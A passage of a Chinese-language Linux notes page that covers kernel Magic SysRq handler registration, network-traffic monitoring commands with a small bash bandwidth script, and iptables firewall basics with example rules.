class="title"> it</span> work?</span><br><span class="line">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span><br><span class="line">In<span class="title"> order</span> to<span class="title"> register</span> a<span class="title"> basic</span> function<span class="title"> with</span> the<span class="title"> table,</span> you<span class="title"> must</span> first<span class="title"> include</span></span><br><span class="line"><span class="title">the</span> header 'include/linux/sysrq.h',<span class="title"> this</span> will<span class="title"> define</span> everything<span class="title"> else</span> you<span class="title"> need.</span></span><br><span class="line"><span class="title">Next,</span> you<span class="title"> must</span> create<span class="title"> a</span> sysrq_key_op<span class="title"> struct,</span> and<span class="title"> populate</span> it<span class="title"> with</span> A)<span class="title"> the</span> key</span><br><span class="line">handler<span class="title"> function</span> you<span class="title"> will</span> use,<span class="title"> B)</span> a<span class="title"> help_msg</span> string,<span class="title"> that</span> will<span class="title"> print</span> when<span class="title"> SysRQ</span></span><br><span class="line"><span class="title">prints</span> help,<span class="title"> and</span> C)<span class="title"> an</span> action_msg<span class="title"> string,</span> that<span class="title"> will</span> print<span class="title"> right</span> before<span class="title"> your</span></span><br><span class="line"><span class="title">handler</span> is<span class="title"> called.</span> Your<span class="title"> handler</span> must<span class="title"> conform</span> to<span class="title"> the</span> protoype<span class="title"> in</span> 'sysrq.h'.</span><br><span class="line">After<span class="title"> the</span> sysrq_key_op<span class="title"> is</span> created,<span class="title"> you</span> can<span class="title"> call</span> the<span class="title"> macro</span> </span><br><span class="line">register_sysrq_key(int<span class="title"> key,</span> struct<span class="title"> sysrq_key_op</span> *op_p)<span class="title"> that</span> is<span class="title"> defined</span> in</span><br><span class="line">sysrq.h,<span class="title"> this</span> will<span class="title"> register</span> the<span class="title"> operation</span> pointed<span class="title"> to</span> by 'op_p'<span class="title"> at</span> table</span><br><span class="line">key 'key',<span class="title"> if</span> that<span class="title"> slot</span> in<span class="title"> the</span> table<span class="title"> is</span> blank.<span class="title"> At</span> module<span class="title"> unload</span> time,<span class="title"> you</span> must</span><br><span class="line">call<span class="title"> the</span> macro<span class="title"> unregister_sysrq_key(int</span> key,<span class="title"> struct</span> sysrq_key_op *op_p),<span class="title"> which</span></span><br><span class="line"><span class="title">will</span> remove<span class="title"> the</span> key<span class="title"> op</span> pointed<span class="title"> to</span> by 'op_p'<span class="title"> from</span> the<span class="title"> key</span> 'key',<span class="title"> if</span> and<span class="title"> only</span> if</span><br><span class="line">it<span class="title"> is</span> currently<span class="title"> registered</span> in<span class="title"> that</span> slot.<span class="title"> This</span> is<span class="title"> in</span> case<span class="title"> the</span> slot<span class="title"> has</span> been</span><br><span class="line">overwritten<span class="title"> since</span> you<span class="title"> registered</span> it.</span><br><span class="line">The<span class="title"> Magic</span> SysRQ<span class="title"> system</span> works<span class="title"> by</span> registering<span class="title"> key</span> operations<span class="title"> against</span> a<span class="title"> key</span> op</span><br><span class="line">lookup<span class="title"> table,</span> which<span class="title"> is</span> defined<span class="title"> in</span> 'drivers/char/sysrq.c'.<span class="title"> This</span> key<span class="title"> table</span> has</span><br><span class="line">a<span class="title"> number</span> of<span class="title"> operations</span> registered<span class="title"> into</span> it<span class="title"> at</span> compile<span class="title"> time,</span> but<span class="title"> is</span> mutable,</span><br><span class="line">and 4<span class="title"> functions</span> are<span class="title"> exported</span> for<span class="title"> interface</span> to<span class="title"> it:</span> __sysrq_lock_table,</span><br><span class="line">__sysrq_unlock_table,<span class="title"> __sysrq_get_key_op,</span> and<span class="title"> __sysrq_put_key_op.</span> The</span><br><span class="line">functions<span class="title"> __sysrq_swap_key_ops</span> and<span class="title"> __sysrq_swap_key_ops_nolock</span> are<span class="title"> defined</span></span><br><span class="line"><span class="title">in</span> the<span class="title"> header</span> itself,<span class="title"> and</span> the<span class="title"> REGISTER</span> and<span class="title"> UNREGISTER</span> macros<span class="title"> are</span> built<span class="title"> from</span></span><br><span class="line"><span class="title">these.</span> More<span class="title"> complex</span> (and<span class="title"> dangerous!)</span> manipulations<span class="title"> of</span> the<span class="title"> table</span> are<span class="title"> possible</span></span><br><span class="line"><span class="title">using</span> these<span class="title"> functions,</span> but<span class="title"> you</span> must<span class="title"> be</span> careful<span class="title"> to</span> always<span class="title"> lock</span> the<span class="title"> table</span> before</span><br><span class="line">you<span class="title"> read</span> or<span class="title"> write</span> from<span class="title"> it,</span> and<span class="title"> to</span> unlock<span class="title"> it</span> again<span class="title"> when</span> you<span class="title"> are</span> done. (And<span class="title"> of</span></span><br><span class="line"><span class="title">course,</span> to<span class="title"> never</span> ever<span class="title"> leave</span> an<span class="title"> invalid</span> pointer<span class="title"> in</span> the<span class="title"> table).</span> Null<span class="title"> pointers</span> in</span><br><span class="line">the<span class="title"> table</span> are<span class="title"> always</span> safe :)</span><br><span class="line">If<span class="title"> for</span> some<span class="title"> reason</span> you<span class="title"> feel</span> the<span class="title"> need</span> to<span class="title"> call</span> the<span class="title"> handle_sysrq</span> function<span class="title"> from</span></span><br><span class="line"><span class="title">within</span> a<span class="title"> function</span> called<span class="title"> by</span> handle_sysrq,<span class="title"> you</span> must<span class="title"> be</span> aware<span class="title"> that</span> you<span class="title"> are</span> in</span><br><span class="line">a<span class="title"> lock</span> (you<span class="title"> are</span> also<span class="title"> in</span> an<span class="title"> interrupt</span> handler,<span class="title"> which</span> means<span class="title"> don't</span> sleep!),<span class="title"> so</span></span><br><span class="line"><span class="title">you</span> must<span class="title"> call</span> __handle_sysrq_nolock<span class="title"> instead.</span></span><br><span class="line"><span class="title">*</span> <span class="title"> I</span> have<span class="title"> more</span> questions,<span class="title"> who</span> can<span class="title"> I</span> ask?</span><br><span class="line">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span><br><span class="line">You<span class="title"> may</span> feel<span class="title"> free</span> to<span class="title"> send</span> email<span class="title"> to</span> myrdraal@deathsdoor.com,<span class="title"> and</span> I<span class="title"> will</span></span><br><span class="line"><span class="title">respond</span> as<span class="title"> soon</span> as<span class="title"> possible.</span></span><br><span class="line"><span class="title"></span> -Myrdraal</span><br><span class="line">And<span class="title"> I'll</span> answer<span class="title"> any</span> questions<span class="title"> about</span> the<span class="title"> registration</span> system<span class="title"> you</span> got,<span class="title"> also</span></span><br><span class="line"><span class="title">responding</span> as<span class="title"> soon</span> as<span class="title"> possible.</span></span><br><span class="line"><span class="title"></span> -Crutcher</span><br><span class="line">*<span class="title">  Credits</span></span><br><span class="line"><span class="title">~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~</span></span><br><span class="line"><span class="title">Written</span> by<span class="title"> Mydraal</span> &lt;myrdraal@deathsdoor.com&gt;</span><br><span class="line">Updated<span class="title"> by</span> Adam<span class="title"> Sulmicki</span> &lt;adam@cfar.umd.edu&gt;</span><br><span class="line">Updated<span class="title"> by</span> Jeremy<span class="title"> M.</span> Dolan &lt;jmd@turbogeek.org&gt; 2001/01/28 10:15:59</span><br><span class="line">Added<span class="title"> to</span> by<span class="title"> Crutcher</span> Dunnavant &lt;crutcher+kernel@datastacks.com&gt;</span><br></pre></td></tr></table></figure>
<h4 id="查看网络状态"><a href="#查看网络状态" class="headerlink" title="查看网络状态"></a>查看网络状态</h4><ul>
<li><p><code>sar -n DEV 1 5</code>：sar命令包含在sysstat工具包中，提供系统的众多统计数据。其在不同的系统上命令有些差异，某些系统提供的sar支持基于网络接口的数据统计，也可以查看设备上每秒收发包的个数和流量。命令后面1 5 意思是：每一秒钟取1次值，取5次。DEV显示网络接口信息。另外，-n参数很有用，他有6个不同的开关：DEV | EDEV | NFS | NFSD | SOCK | ALL ，其代表的含义如下：</p>
<ol>
<li>DEV显示网络接口信息。</li>
<li>EDEV显示关于网络错误的统计数据。</li>
<li>NFS统计活动的NFS客户端的信息。</li>
<li>NFSD统计NFS服务器的信息</li>
<li>SOCK显示套接字信息</li>
<li>ALL显示所有5个开关</li>
</ol>
</li>
<li><p>实时监控网速：<code>sh This_Script.sh 【网络接口】</code></p>
<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#</span><span class="bash">!/bin/bash</span></span><br><span class="line"><span class="meta">#</span><span class="bash"><span class="comment">##</span></span></span><br><span class="line"><span class="meta">#</span><span class="bash"><span class="comment"># 脚本是通过读取运行时文件系统/proc/net/dev中的网络实时数据，并通过简单计算得到的。</span></span></span><br><span class="line"><span class="meta">#</span><span class="bash"><span class="comment"># Source：https://www.cnblogs.com/nmap/p/9427260.html</span></span></span><br><span class="line">ethn=$1</span><br><span class="line"></span><br><span class="line">while true</span><br><span class="line">do</span><br><span class="line"> RX_pre=$(cat /proc/net/dev | grep $ethn | sed 's/:/ /g' | awk '&#123;print $2&#125;')</span><br><span class="line"> TX_pre=$(cat /proc/net/dev | grep $ethn | sed 's/:/ /g' | awk '&#123;print $10&#125;')</span><br><span class="line"> sleep 1</span><br><span class="line"> RX_next=$(cat /proc/net/dev | grep $ethn | sed 's/:/ /g' | awk '&#123;print $2&#125;')</span><br><span class="line"> TX_next=$(cat /proc/net/dev | grep $ethn | sed 's/:/ /g' | awk '&#123;print $10&#125;')</span><br><span class="line"> </span><br><span class="line"> clear</span><br><span class="line"> echo -e "\t RX `date +%k:%M:%S` TX"</span><br><span class="line"> </span><br><span class="line"> RX=$(($&#123;RX_next&#125;-$&#123;RX_pre&#125;))</span><br><span class="line"> TX=$(($&#123;TX_next&#125;-$&#123;TX_pre&#125;))</span><br><span class="line"> </span><br><span class="line"> if [[ $RX -lt 1024 ]];then</span><br><span class="line"> RX="$&#123;RX&#125;B/s"</span><br><span class="line"> elif [[ $RX -gt 1048576 ]];then</span><br><span class="line"> RX=$(echo $RX | awk '&#123;print $1/1048576 "MB/s"&#125;')</span><br><span class="line"> else</span><br><span class="line"> RX=$(echo $RX | awk '&#123;print $1/1024 "KB/s"&#125;')</span><br><span class="line"> fi</span><br><span class="line"> </span><br><span class="line"> if [[ $TX -lt 1024 ]];then</span><br><span class="line"> TX="$&#123;TX&#125;B/s"</span><br><span class="line"> elif [[ $TX -gt 1048576 ]];then</span><br><span class="line"> TX=$(echo $TX | awk '&#123;print $1/1048576 "MB/s"&#125;')</span><br><span class="line"> else</span><br><span class="line"> TX=$(echo $TX | awk '&#123;print $1/1024 "KB/s"&#125;')</span><br><span class="line"> fi</span><br><span class="line"> </span><br><span class="line"> echo -e "$ethn \t $RX $TX "</span><br><span class="line"> </span><br><span class="line">done</span><br></pre></td></tr></table></figure>
</li>
<li><p><code>cat /proc/net/dev</code> :查看网卡总发送量。</p>
<figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">Inter-|</span>   <span class="string">Receive</span>                                                <span class="string">|</span>  <span class="string">Transmit</span></span><br><span class="line"> <span class="string">face</span> <span class="string">|bytes</span>    <span class="string">packets</span> <span class="string">errs</span> <span class="string">drop</span> <span class="string">fifo</span> <span class="string">frame</span> <span class="string">compressed</span> <span class="string">multicast|bytes</span>    <span class="string">packets</span> <span class="string">errs</span> <span class="string">drop</span> <span class="string">fifo</span> <span class="string">colls</span> <span class="string">carrier</span> <span class="string">compressed</span></span><br><span class="line">    <span class="attr">lo:</span>  <span class="number">716625</span>    <span class="number">8679</span>    <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>     <span class="number">0</span>          <span class="number">0</span>         <span class="number">0</span>   <span class="number">716625</span>    <span class="number">8679</span>    <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>     <span class="number">0</span>       <span class="number">0</span>          <span class="number">0</span></span><br><span class="line">  <span class="attr">eth0:</span>       <span class="number">0</span>       <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>     <span class="number">0</span>          <span class="number">0</span>         <span class="number">0</span>        <span class="number">0</span>       <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>     <span class="number">0</span>       <span class="number">0</span>          <span class="number">0</span></span><br><span class="line"> <span class="attr">wlan0:</span> <span class="number">1361149430</span>  <span class="number">932816</span>    <span class="number">0</span> <span class="number">2692</span>    <span class="number">0</span>     <span class="number">0</span>          <span class="number">0</span>         <span class="number">0</span> <span class="number">42593772</span>  <span class="number">378512</span>    <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>     <span class="number">0</span>       <span class="number">0</span>          <span class="number">0</span></span><br><span class="line">  <span class="attr">eth1:</span>       <span class="number">0</span>       <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>     <span class="number">0</span>          <span class="number">0</span>         <span class="number">0</span>        <span class="number">0</span>       <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>    <span class="number">0</span>     <span class="number">0</span>       <span class="number">0</span>          <span class="number">0</span></span><br></pre></td></tr></table></figure>
</li>
<li><p><code>lsof -i</code>：查看软件、端口连接。</p>
</li>
<li><p><code>watch -n 1 &quot;ifconfig 【网卡】&quot;</code>: 周期性显示收发情况。</p>
</li>
<li><p><code>ifstat</code>: 显示实时网速。</p>
</li>
<li><p><code>vnstat</code>: 如<code>vnstat -l -i eth0</code>查看实时网速。<code>vnstat -t</code>查看流量消耗前十（要求运行daemon）。</p>
</li>
</ul>
<h4 id="IPTABLES——关于Linux防火墙"><a href="#IPTABLES——关于Linux防火墙" class="headerlink" title="IPTABLES——关于Linux防火墙"></a>IPTABLES——关于Linux防火墙</h4><figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br><span class="line">71</span><br><span class="line">72</span><br><span class="line">73</span><br><span class="line">74</span><br><span class="line">75</span><br><span class="line">76</span><br><span class="line">77</span><br><span class="line">78</span><br><span class="line">79</span><br><span class="line">80</span><br><span class="line">81</span><br><span class="line">82</span><br><span class="line">83</span><br><span class="line">84</span><br><span class="line">85</span><br><span class="line">86</span><br><span class="line">87</span><br><span class="line">88</span><br><span class="line">89</span><br><span class="line">90</span><br><span class="line">91</span><br><span class="line">92</span><br><span class="line">93</span><br><span class="line">94</span><br><span class="line">95</span><br><span class="line">96</span><br><span class="line">97</span><br><span class="line">98</span><br><span class="line">99</span><br><span class="line">100</span><br><span class="line">101</span><br><span class="line">102</span><br><span class="line">103</span><br><span class="line">104</span><br><span class="line">105</span><br><span class="line">106</span><br><span class="line">107</span><br><span class="line">108</span><br><span class="line">109</span><br><span class="line">110</span><br><span class="line">111</span><br><span class="line">112</span><br><span class="line">113</span><br><span class="line">114</span><br><span class="line">115</span><br><span class="line">116</span><br><span class="line">117</span><br><span class="line">118</span><br><span class="line">119</span><br><span class="line">120</span><br><span class="line">121</span><br><span class="line">122</span><br><span class="line">123</span><br><span class="line">124</span><br><span class="line">125</span><br><span class="line">126</span><br><span class="line">127</span><br><span class="line">128</span><br><span class="line">129</span><br><span class="line">130</span><br><span class="line">131</span><br><span class="line">132</span><br><span class="line">133</span><br><span class="line">134</span><br><span class="line">135</span><br><span class="line">136</span><br><span class="line">137</span><br><span class="line">138</span><br><span class="line">139</span><br><span class="line">140</span><br><span class="line">141</span><br><span class="line">142</span><br><span class="line">143</span><br><span class="line">144</span><br><span class="line">145</span><br><span class="line">146</span><br><span class="line">147</span><br><span class="line">148</span><br><span class="line">149</span><br><span class="line">150</span><br><span class="line">151</span><br><span class="line">152</span><br><span class="line">153</span><br><span class="line">154</span><br><span class="line">155</span><br><span class="line">156</span><br><span class="line">157</span><br><span class="line">158</span><br><span class="line">159</span><br><span class="line">160</span><br><span class="line">161</span><br><span class="line">162</span><br><span class="line">163</span><br><span class="line">164</span><br><span class="line">165</span><br><span class="line">166</span><br><span class="line">167</span><br><span class="line">168</span><br><span class="line">169</span><br><span class="line">170</span><br><span class="line">171</span><br><span class="line">172</span><br><span class="line">173</span><br><span class="line">174</span><br><span class="line">175</span><br><span class="line">176</span><br><span class="line">177</span><br><span class="line">178</span><br><span class="line">179</span><br><span class="line">180</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">=========================================================================================</span></span><br><span class="line"><span class="comment"># iptables结构图</span></span><br><span class="line"><span class="comment"># tables包含chain，chain是rules的总和</span></span><br><span class="line"><span class="string">------------tables----chains--------------------action--------</span></span><br><span class="line">          <span class="string">|</span>        <span class="string">|</span>                    <span class="string">|</span> <span class="string">ACCEPT</span></span><br><span class="line"><span class="string">iptables:-+-FILTER-+--INPUT</span>             <span class="string">|</span> <span class="string">REJECT</span></span><br><span class="line">          <span class="string">|</span>        <span class="string">|</span>                    <span class="string">|</span> <span class="string">DROP</span></span><br><span class="line">          <span class="string">|</span>        <span class="string">+--OUTPUT</span>            <span class="string">|</span> <span class="string">LOG</span></span><br><span class="line">          <span class="string">|</span>        <span class="string">|</span>                    <span class="string">|</span> <span class="string">ULOG</span></span><br><span class="line">          <span class="string">|</span>        <span class="string">+--FORWARD</span>           <span class="string">|</span> <span class="string">chain_name</span></span><br><span class="line">          <span class="string">|</span>                             <span class="string">|</span> <span class="string">RETURN</span></span><br><span class="line">          <span class="string">+--NAT---+---PREROUTING---+</span>   <span class="string">|</span>                 <span class="string">+SNAT</span></span><br><span class="line">          <span class="string">|</span>        <span class="string">|</span>                <span class="string">|</span>   <span class="string">|</span>                 <span class="string">|</span></span><br><span class="line">          <span class="string">|</span>        <span class="string">+--POSTROUTING---+---|--only</span> <span class="string">NAT</span> <span class="string">table-+DNAT</span></span><br><span class="line">          <span class="string">|</span>        <span class="string">|</span>                <span class="string">|</span>   <span class="string">|</span>                 <span class="string">|</span></span><br><span class="line">          <span class="string">|</span>        <span class="string">+-----OUTPUT-----+</span>   <span class="string">|</span>                 <span class="string">+MASQUERADE</span></span><br><span class="line">          <span class="string">|</span>                             <span class="string">|</span></span><br><span class="line">          <span class="string">+-MANGLE--+</span>                   <span class="string">|</span></span><br><span class="line">          <span class="string">|</span>         <span class="string">+--see</span> <span class="string">manual!</span>      <span class="string">|</span></span><br><span class="line">          <span class="string">+--RAW----+</span>                   <span class="string">|</span></span><br><span class="line"><span class="string">=========================================================================================</span></span><br><span class="line"><span class="comment"># iptables:</span></span><br><span class="line"><span class="string">-L</span> <span class="attr">chain        :e.g.:</span> <span class="string">iptables</span> <span class="string">-n</span> <span class="string">-L</span> <span class="string">INPUT</span> <span class="string">列出[chain]的规则</span> <span class="string">-n:disable</span> <span class="string">name</span> <span class="string">resolution</span></span><br><span class="line"><span class="string">-N</span> <span class="string">chain</span>        <span class="string">:新建chain</span></span><br><span class="line"><span class="string">-X</span> <span class="string">chain</span>        <span class="string">:删除空、未使用的chain</span></span><br><span class="line"><span class="string">-A</span> <span class="string">chain</span> <span class="string">rule</span>   <span class="string">:在chain最后添加一新规则|！！：chain的rules从上到下执行，注意顺序！！</span></span><br><span class="line"><span class="string">-I</span> <span class="string">chain</span> <span class="string">rule_num</span> <span class="string">rule</span>         <span class="string">:在第[rule_num]前插入[rule]，和-A一起使用</span></span><br><span class="line"><span class="string">-D</span> <span class="string">chain</span> <span class="string">rule_num/-D</span> <span class="string">chain</span> <span class="string">rule:前者删除[chain]中的[rule_num];后者删除[chain]中所有rules；用iptables</span> <span class="string">-L</span> <span class="string">--line-numbers显示rule_num</span></span><br><span class="line"><span class="string">-F</span> <span class="string">chain</span>        <span class="string">:e.g.:iptables</span> <span class="string">-F</span> <span class="string">OUTPUT</span>  <span class="string">删除chain所有的rules；如果没有chain指定：iptables</span> <span class="string">-F</span> <span class="string">，则该tables的所有rules全部删除。</span></span><br><span class="line"><span class="string">-P</span> <span class="string">chain</span> <span class="string">action</span> <span class="string">:定义默认行为，或者给“标准chain”一个“政策”（仅限于标准chain）。iptables</span> <span class="string">-P</span> <span class="string">INPUT</span> <span class="string">DROP</span>  <span class="string">设置默认丢弃所有的来包</span></span><br><span class="line"><span class="string">=========================================================================================</span></span><br><span class="line"><span class="string">rules：</span></span><br><span class="line"><span class="string">表达式：conditions</span> <span class="string">-j</span> <span class="string">action</span> <span class="string">action_options</span>    <span class="string">一条rule多个条件关系是</span>  <span class="string">AND</span></span><br><span class="line"><span class="string">The</span> <span class="string">-p</span> <span class="string">protocol</span> <span class="string">condition</span> <span class="string">matches</span> <span class="string">the</span> <span class="string">protocol</span> <span class="string">field</span> <span class="string">of</span> <span class="string">the</span> <span class="string">IP</span> <span class="string">packet.</span> <span class="string">The</span> <span class="string">most</span> <span class="string">common</span> <span class="string">values</span></span><br><span class="line"><span class="string">are</span> <span class="string">tcp,</span> <span class="string">udp,</span> <span class="string">icmp,</span> <span class="string">and</span> <span class="string">icmpv6.</span> <span class="string">This</span> <span class="string">condition</span> <span class="string">can</span> <span class="string">be</span> <span class="string">complemented</span> <span class="string">with</span> <span class="string">conditions</span> <span class="string">on</span> <span class="string">the</span> <span class="string">TCP</span></span><br><span class="line"><span class="string">ports,</span> <span class="string">with</span> <span class="string">clauses</span> <span class="string">such</span> <span class="string">as</span> <span class="string">--source-port</span> <span class="string">port</span> <span class="string">and</span> <span class="string">--destination-portport.</span></span><br><span class="line"><span class="string">用！前缀来代表相反条件</span></span><br><span class="line"><span class="string">-p</span> <span class="string">protocol</span> <span class="string">:协议</span></span><br><span class="line"><span class="string">-s</span> <span class="string">address/-s</span> <span class="string">network/mask:包来源</span></span><br><span class="line"><span class="string">-d</span> <span class="string">address/-d</span> <span class="string">network/mask:包目的地</span></span><br><span class="line"><span class="string">-i</span> <span class="string">interface/-o</span> <span class="string">interface</span>  <span class="string">:选取来自[网卡]的进来/出去的包</span></span><br><span class="line"><span class="string">-m</span> <span class="string">modules</span> <span class="string">:装某模块</span></span><br><span class="line"><span class="string">--state</span> <span class="string">state</span> <span class="string">：</span> <span class="string">数据包的状态匹配（这需要ipt_conntrack内核模块进行连接跟踪）。包括：NEW、ESTABLISHED、RELATED分别代表：启用一个新连接的数据包、来自已连接的数据包、发起的与现有链接有关的链接的数据包《如FTP》；</span></span><br><span class="line"><span class="string">iptables管理的是除了VPN以外的流量！！！！！！！</span></span><br><span class="line"></span><br><span class="line"><span class="string">e.g.:to</span> <span class="string">silently</span> <span class="string">block</span> <span class="string">incoming</span> <span class="string">traffic</span> <span class="string">from</span> <span class="string">the</span> <span class="string">IP</span> <span class="string">address</span> <span class="number">10.0</span><span class="number">.1</span><span class="number">.5</span> <span class="string">and</span> <span class="string">the</span> <span class="number">31.13</span><span class="number">.74</span><span class="number">.0</span><span class="string">/24</span> <span class="string">class</span> <span class="string">C</span> <span class="string">subnet</span></span><br><span class="line"><span class="comment"># iptables -A INPUT -s 10.0.1.5 -j DROP</span></span><br><span class="line"><span class="comment"># iptables -A INPUT -s 31.13.74.0/24 -j DROP</span></span><br><span class="line"><span class="comment"># iptables -n -L INPUT</span></span><br><span class="line"><span class="string">Chain</span> 	<span class="string">INPUT</span> 	<span class="string">(policy</span> <span class="string">ACCEPT)</span></span><br><span class="line"><span class="string">target</span>  	<span class="string">prot</span> 	<span class="string">opt</span> 	<span class="string">source</span> 		<span class="string">destination</span></span><br><span class="line"><span class="string">DROP</span> 		<span class="string">all</span> 	<span class="string">--</span>	<span class="number">10.0</span><span class="number">.1</span><span class="number">.5</span>	 <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span></span><br><span class="line"><span class="string">DROP</span> 		<span class="string">all</span> 	<span class="string">--</span> 	<span class="number">31.13</span><span class="number">.74</span><span class="number">.0</span><span class="string">/24</span>	 <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>	</span><br><span class="line"><span class="string">=========================================================================================</span></span><br><span class="line"><span class="string">To</span> <span class="string">allow</span> <span class="string">users</span> <span class="string">to</span> <span class="string">connect</span> <span class="string">to</span> <span class="string">SSH,</span> <span class="string">HTTP,</span> <span class="string">and</span> <span class="string">IMAP,</span> <span class="attr">you could run the following commands:</span>      </span><br><span class="line"><span class="comment"># iptables -A INPUT -m state --state NEW -p tcp --dport 22 -j ACCEPT</span></span><br><span class="line"><span class="comment"># iptables -A INPUT -m state --state NEW -p tcp --dport 80 -j ACCEPT</span></span><br><span class="line"><span class="comment"># iptables -A INPUT -m state --state NEW -p tcp --dport 143 -j ACCEPT</span></span><br><span class="line"><span class="comment"># iptables -n -L INPUT</span></span><br><span class="line"><span class="string">Chain</span> <span class="string">INPUT</span> <span class="string">(policy</span> <span class="string">ACCEPT)</span></span><br><span class="line"><span class="string">target</span>	 <span class="string">prot</span> 	<span class="string">opt</span> 	<span class="string">source</span> 		<span class="string">destination</span></span><br><span class="line"><span class="string">DROP</span>	 <span class="string">all</span> 	<span class="string">--</span> 	<span class="number">10.0</span><span class="number">.1</span><span class="number">.5</span> 	<span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span></span><br><span class="line"><span class="string">DROP</span>	 <span class="string">all</span> 	<span class="string">--</span> 	<span class="number">31.13</span><span class="number">.74</span><span class="number">.0</span><span class="string">/24</span> 	<span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span></span><br><span class="line"><span class="string">ACCEPT</span>	 <span class="string">tcp</span> 	<span class="string">--</span> 	<span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span> 	<span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span> 	<span class="string">state</span> <span class="string">NEW</span> <span class="string">tcp</span> <span class="string">dpt:22</span></span><br><span class="line"><span class="string">ACCEPT</span>	 <span class="string">tcp</span> 	<span class="string">--</span> 	<span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span> 	<span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span> 	<span class="string">state</span> <span class="string">NEW</span> <span class="string">tcp</span> <span class="string">dpt:80</span></span><br><span class="line"><span class="string">ACCEPT</span>	 <span class="string">tcp</span> 	<span class="string">--</span> 	<span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span> 	<span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span> 	<span class="string">state</span> <span class="string">NEW</span> <span class="string">tcp</span> <span class="string">dpt:143</span></span><br><span class="line"><span class="string">=========================================================================================</span></span><br><span class="line"><span class="string">删除某条rule后，其后面的rule_num都会发生改变！！</span></span><br><span class="line"><span class="comment"># iptables -n -L INPUT --line-numbers</span></span><br><span class="line"><span class="string">Chain</span> <span class="string">INPUT</span> <span class="string">(policy</span> <span class="string">ACCEPT)</span></span><br><span class="line"><span class="string">num</span>     <span class="string">target</span>  <span class="string">prot</span> <span class="string">opt</span> <span class="string">source</span>         <span class="string">destination</span></span><br><span class="line"><span class="number">1</span>       <span class="string">DROP</span>    <span class="string">all</span>  <span class="string">--</span>  <span class="number">10.0</span><span class="number">.1</span><span class="number">.5</span>       <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span></span><br><span class="line"><span class="number">2</span>       <span class="string">DROP</span>    <span class="string">all</span>  <span class="string">--</span>  <span class="number">31.13</span><span class="number">.74</span><span class="number">.0</span><span class="string">/24</span>  <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span></span><br><span class="line"><span class="number">3</span>       <span class="string">ACCEPT</span>  <span class="string">tcp</span>  <span class="string">--</span>  <span class="number">0.0</span><span class="number">.0</span><span class="number">.0</span><span class="string">/0</span>      <span class="number">0.0</span><span class="number">.0</span><span 